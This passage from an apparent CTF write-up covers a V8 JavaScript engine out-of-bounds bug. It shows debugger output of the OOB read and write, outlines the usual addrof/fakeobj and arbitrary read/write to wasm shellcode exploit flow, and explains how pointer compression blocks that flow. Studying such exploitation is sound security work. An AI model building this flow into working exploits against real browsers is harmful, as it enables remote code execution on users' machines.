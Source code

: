The above script tests the oob read. `arr[length]` should be `arr`'s map

```gdb
[+] arr's map pointer @ 0x18cd45
DebugPrint: 0x1bec000486a1: [JSArray]
 - map: 0x1bec0018cd45 <Map[16](PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x1bec0018c69d <JSArray[0]>
 - elements: 0x1bec00048691 <FixedDoubleArray[1]> [PACKED_DOUBLE_ELEMENTS]
...
```

as we can see in arr's element:
![](https://i.imgur.com/nGFNo6l.png)

Next, there's oob write: 
```
d8> arr.oob(itof(0xdeadbeefcafebaben))
undefined
pwndbg> cc 0x352700048691-1 # arr's element
0x352700048690: 0x000008a9      0x00000002      0x9999999a      0x3ff19999 #1st element
0x3527000486a0: 0xcafebabe      0xdeadbeef #2nd 0x00048691      0x00000002
0x3527000486b0: 0x00000809      0x0018cd45      0x00000725      0x00000831
0x3527000486c0: 0x00000002      0x0018cd45      0x00000725      0x00000831
```

Faith's writeup has covered pointer tagging, object structure, map, and a basic v8 exploit flow: 
- `addrof` & `fakeobj` via the OOB bug 
- `arb_read` & `arb_write` via `ArrayBuffer`'s backing store 
- create a rwx wasm instance
- write arbitrary code into it and execute. 

Therefore, I won't go over everything again. Now, let me introduce a new v8's mechanism to see how it changes the exploit flow.
## Pointer compression

**Pointer compression** is a new mechanism in V8 designed to reduce memory consumption. The V8 heap region is 4GB in size, with all addresses in this region sharing the same upper 32 bits. To optimize this, V8 stores the base address separately and uses offsets as pointers, reducing the pointer size from 64 bits to 32 bits. You can read more about it [here](https://v8.dev/blog/pointer-compression) and [here](https://blog.infosectcbr.com.au/2020/02/pointer-compression-in-v8.html).

```
Before:
            |----- 32 bits -----|----- 32 bits -----|
Pointer:    |________________address______________**w1**|
Smi:        |____int32_value____|000000000000000000**0**|

After:
                    |----- 32 bits -----|----- 32 bits -----|
Compressed pointer:                     |______offset_____w1|
Compressed Smi:                         |____int31_value___0|
```

How does this affect exploitation? We can no longer access data outside the heap, as the compiler adds the pointers to a base address (`cage_base`) before processing. This means arbitrary read and write are no longer possible, putting an end to the whole shellcode write & execute in wasm's rwx region strategy.
